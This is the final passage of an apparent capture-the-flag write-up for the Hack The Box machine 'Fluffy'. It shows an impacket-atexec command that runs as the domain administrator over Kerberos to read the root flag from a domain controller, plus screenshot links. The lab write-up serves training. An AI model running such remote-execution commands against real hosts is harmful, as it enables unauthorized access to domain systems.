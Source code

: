 
Finally, we can read the root flag from the administrator's desktop.

```bash
impacket-atexec fluffy.htb/administrator@dc01.fluffy.htb -k -no-pass 'type C:\Users\Administrator\Desktop\root.txt'
```

![](/assets/images/htb-writeup-fluffy/fluffy42.png)

And with that, the machine is fully compromised.

![](/assets/images/htb-writeup-fluffy/fluffy43.png)